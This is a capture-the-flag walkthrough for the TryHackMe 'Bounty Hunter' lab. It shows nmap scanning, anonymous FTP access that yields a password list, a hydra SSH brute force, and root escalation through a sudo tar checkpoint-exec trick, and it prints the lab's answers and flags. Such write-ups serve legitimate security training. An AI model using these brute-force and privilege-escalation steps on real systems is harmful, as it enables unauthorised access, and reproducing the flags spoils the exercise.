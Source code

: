# Try Hack Me - Bounty Hunter

setup variable IP for easy use
```bash
export IP=10.10.14.22
```

# TASK 1

```bash
nmap -sC -sV -oN nmap/initial $IP
```

Results

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 16:24 EDT
Nmap scan report for 10.10.14.22
Host is up (0.14s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:                                                                             
|      Connected to ::ffff:10.6.57.243                                                           
|      Logged in as ftp                                                                          
|      TYPE: ASCII                                                                               
|      No session bandwidth limit                                                                
|      Session timeout in seconds is 300                                                         
|      Control connection is plain text                                                          
|      Data connections will be plain text                                                       
|      At session startup, client count was 3                                                    
|      vsFTPd 3.0.3 - secure, fast, stable                                                       
|_End of status                                                                                  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                
| ssh-hostkey:                                                                                   
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)                                   
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)                                  
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)                                
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                              
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                     
|_http-title: Site doesn't have a title (text/html).                                             
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel            
```

Q. Who wrote the task list? 
A. lin

There's nothing on the web site and dirbuster produced no new subdirectories. let's try anonymous FTP

```bash
ftp anonymous@10.10.14.22
mget *.txt
```
task.txt
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

locks.txt
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
etc......

```

Q. What service can you bruteforce with the text file found? 
A. SSH

Now we have her username we can attack ssh with hydra

Q. What is the users password?
A. RedDr4gonSynd1cat3

```bash
hydra -l lin -P /home/pointnext/Documents/THM/Bounty_hunter/locks.txt ssh://10.10.14.22
```

Q. user.txt
A. THM{CR1M3_SyNd1C4T3}

```bash
ssh lin@10.10.14.22
cat user.txt
```

Q. root.txt
A. THM{80UN7Y_h4cK3r}

```bash
sudo -l
```

Results

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
A quick look to GTfoBins - https://gtfobins.github.io/gtfobins/tar/

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

we're root

cat out the file

```bash
cat /root/root.txt
```

Done!
